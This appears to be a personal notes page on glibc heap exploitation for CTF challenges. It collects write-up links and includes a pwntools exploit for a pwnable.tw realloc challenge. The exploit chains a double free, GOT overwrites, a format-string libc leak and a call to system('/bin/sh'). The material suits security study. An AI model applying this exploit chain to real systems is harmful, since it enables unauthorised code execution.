 # Container images, text,... for my Github.

> malloc.c full version: https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c

>Pwnable.tw

   * https://www.taintedbits.com/2020/07/05/binary-exploitation-pwnable-tw-realloc/

   * https://hackmd.io/@wxrdnx/r1CXaFHdv
   
   * https://hackmd.io/@ductin/HyGmQq4w9

> TetCTF
 
  * https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiEpLqR7qr9AhUR7GEKHbSBCS0QFnoECAwQAQ&url=https%3A%2F%2Fd4rkn3ss.medium.com%2Fwrite-up-for-pwnable-challenges-tetctf-2019-a74eb177518e&usg=AOvVaw0A1Oieo3lMK_KtxWpRGYcH

```python 
#!/usr/bin/env python3 
ptr = 0x603100

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.2.23.so')
context.log_level = 'DEBUG'

p = elf.process()
gdb.attach(p, '''

''')

def register(name, passwd):
    p.sendafter(b'> ', b'1')
    p.sendafter(b'username\n> ', name)
    p.sendafter(b'password\n> ', passwd)
    p.sendafter(b'password\n> ', passwd)

def login(name, passwd):
    p.sendafter(b'> ', b'2')
    p.sendafter(b'username\n> ', name)
    p.sendafter(b'password\n> ', passwd)


def info(username, password):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'username\n> ', username)

def send(username, money):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'to?\n', username)
    p.sendlineafter(b'many?\n', str(money).encode())

def view_trans():
    p.sendlineafter(b'> ', b'3')

def change_passwd(password):
    p.sendlineafter(b'> ', b'4')
    p.sendafter(b'password\n> ', password)

def delete():
    p.sendlineafter(b'> ', b'5')

def logout():
    p.sendlineafter(b'> ', b'6')






p.interactive()

```

```python
#!/usr/bin/env python3

heapArr = 0x4040b0
printfPLT = 0x401070
atollPLT = 0x401090
atollGOT = 0x404048

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.so')

p = elf.process()

# p = gdb.debug('./vuln', gdbscript='''
#     b *menu
# 	b *allocate
#     b *rfree
#     b *reallocate
# ''')

gdb.attach(p, gdbscript='''
	b *0x000000000040133c
    b *rfree
    b *reallocate
''')
context.log_level = 'DEBUG'
#p = remote('chall.pwnable.tw', '10106')

def Allocate(index, size, data):
    p.sendlineafter(b'choice: ', str(1))
    p.sendlineafter(b'Index:', str(index))
    p.sendlineafter(b'Size:', str(size))
    p.sendlineafter(b'Data:', data)

def Reallocate(index, size, data):
    p.sendlineafter(b'choice: ', str(2))
    p.sendlineafter(b'Index:', str(index))
    p.sendlineafter(b'Size:', str(size))
    if size == 0:
        return
    else:
        p.sendlineafter(b'Data:', data)

def rFree(index):
    p.sendlineafter(b'choice: ', str(3))
    p.sendlineafter(b'Index:', str(index))

def Free(index):
    p.sendlineafter(b'choice: ', str(3))
    p.sendlineafter(b'Index:', index)


# 1
Allocate(1, 16, b'a'*15)
# Double Free
# size = 0 => free(1) but not set heapArr[1] = 0
Reallocate(1, 0, p64(atollGOT)) 
Reallocate(1, 16, p64(atollGOT))
Allocate(0, 16, b'a'*15)


Reallocate(1, 32, b'a'*31)
rFree(1)

Allocate(1, 16, p64(printfPLT))


# leak
pause()
Free(b'%21$p')

leak = p.recvline().strip()
libc_start_main = int(leak, 16) - 235 

libc_Base = libc_start_main - libc.symbols['__libc_start_main'] 
system = libc_Base + libc.symbols['system']

log.success('__libc_start_main+235: ' + hex(libc_start_main+235))
log.success('Libc base:             ' + hex(libc_Base))
log.success('system:                ' + hex(system))

Reallocate(1, 16, p64(system)) # bug

Free(b'/bin/sh')



p.interactive()

```

>Heap

   * https://infosecwriteups.com/heap-exploitation-journey-1-tcache-attack-5b38fb0c19b0

   * https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/

   * https://dangokyo.me/2017/12/14/0ctf-2016-quals-pwn-zerostorage-write-up/

   * https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/unsorted_bin_attack/

   * https://www.lazenca.net/pages/viewpage.action?pageId=51970214

   * https://lantern.cool/note-pwn-free-hook/#参考

   * https://ctf-wiki.org/pwn/linux/user-mode/environment/

   * https://one2bla.me/the-dark-arts/common-vulnerabilities/unsortedbin-attack.html


